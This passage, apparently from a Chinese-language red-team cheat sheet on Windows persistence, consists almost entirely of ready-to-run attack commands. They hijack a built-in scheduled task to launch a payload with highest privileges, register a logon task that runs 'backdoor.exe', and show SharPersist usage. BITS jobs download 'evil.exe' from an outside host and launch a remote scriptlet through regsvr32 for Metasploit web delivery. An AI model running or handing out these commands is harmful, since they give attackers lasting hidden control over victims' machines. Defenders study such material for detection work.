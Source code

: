 * 使用原生 **schtask** - 利用 `schtasks /change` 命令修改现有计划任务

  ```powershell
  # 通过调用 ShellExec_RunDLL 函数来启动可执行文件。
  SCHTASKS /Change /tn "\Microsoft\Windows\PLA\Server Manager Performance Monitor" /TR "C:\windows\system32\rundll32.exe SHELL32.DLL,ShellExec_RunDLLA C:\windows\system32\msiexec.exe /Z c:\programdata\S-1-5-18.dat" /RL HIGHEST /RU "" /ENABLE
  ```

* 使用 Powershell

  ```powershell
  PS C:\> $A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\Users\Rasta\AppData\Local\Temp\backdoor.exe"
  PS C:\> $T = New-ScheduledTaskTrigger -AtLogOn -User "Rasta"
  PS C:\> $P = New-ScheduledTaskPrincipal "Rasta"
  PS C:\> $S = New-ScheduledTaskSettingsSet
  PS C:\> $D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S
  PS C:\> Register-ScheduledTask Backdoor -InputObject $D
  ```

* 使用 SharPersist

  ```powershell
  # 添加到当前计划任务
  SharPersist -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Something Cool" -m add
  
  # 添加新任务
  SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Task" -m add
  SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Task" -m add -o hourly
  ```

### BITS 任务

```powershell
bitsadmin /create backdoor
bitsadmin /addfile backdoor "http://10.10.10.10/evil.exe"  "C:\tmp\evil.exe"

# v1
bitsadmin /SetNotifyCmdLine backdoor C:\tmp\evil.exe NUL
bitsadmin /SetMinRetryDelay "backdoor" 60
bitsadmin /resume backdoor

# v2 - exploit/multi/script/web_delivery
bitsadmin /SetNotifyCmdLine backdoor regsvr32.exe "/s /n /u /i:http://10.10.10.10:8080/FHXSd9.sct scrobj.dll"
bitsadmin /resume backdoor
```

## Serviceland

### IIS
